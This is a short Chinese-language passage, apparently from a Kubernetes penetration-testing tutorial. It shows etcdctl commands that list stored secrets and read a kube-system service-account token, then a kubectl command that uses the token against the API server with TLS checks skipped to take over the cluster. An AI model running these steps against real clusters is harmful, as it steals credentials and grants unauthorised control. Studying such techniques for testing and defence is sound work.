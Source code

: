 查看 k8s 的 secrets

```plain
etcdctl get / --prefix --keys-only | grep /secrets/
```

读取 service account token

```plain
#etcdctl get / --prefix --keys-only | grep /secrets/kube-system/clusterrole
#etcdctl get /registry/secrets/kube-system/clusterrole-aggregation-controller-token-jdp5z
```

[![1640414325780.png](assets/1698894658-2a54e366b70bc5c3d2db9113f78fb3d2.png)](https://storage.tttang.com/media/attachment/2021/12/26/a1fa2c9f-5024-437d-9d14-1afcad41291c.png)  
而读取的 Token 大概如下模样  
[![1640414390724.png](assets/1698894658-d4188dcd587c55479eacd304c29986c8.png)](https://storage.tttang.com/media/attachment/2021/12/26/ce8ac3b9-9256-41f0-8c00-9ecd0ee5a3c4.png)  
之后就通过 token 访问 API-Server，获取集群的权限：

```plain
kubectl --insecure-skip-tls-verify -s https://127.0.0.1:6443/ --token="ey..." -n kube-system get pods
```

[![1640414535899.png](assets/1698894658-49e37b1a7ea22e52c046e16eb702db63.png)](https://storage.tttang.com/media/attachment/2021/12/26/52833037-8293-4f3e-a85c-f1ce55d56a79.png)
